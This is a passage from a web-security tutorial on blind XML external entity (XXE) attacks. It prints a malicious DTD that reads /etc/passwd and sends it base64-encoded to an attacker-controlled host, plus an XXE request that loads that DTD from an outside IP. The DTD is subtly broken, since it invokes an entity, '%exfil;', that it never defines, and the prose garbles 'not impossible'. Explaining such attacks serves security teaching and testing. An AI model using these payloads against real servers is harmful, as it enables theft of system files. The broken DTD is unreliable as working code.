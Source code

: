 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % out SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % oob "<!ENTITY &#x25; referenceme SYSTEM 'http://OUR_IP:OUR_PORT/?content=%out;'>">
%oob;
%exfil;
```
> Note: Alternatively, we can use Burp Collaborator, [CanaryTokens](https://canarytokens.org/generate#), or [interactsh](https://github.com/projectdiscovery/interactsh) to replace `OUR_IP:OUR_PORT`.

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.100.13.200:4444/data.dtd"> %xxe;]>
<stockCheck><productId>11234</productId></stockCheck>
```

Alternatively, we can use [XXEInjection](https://github.com/enjoiz/XXEinjector) to automate this process.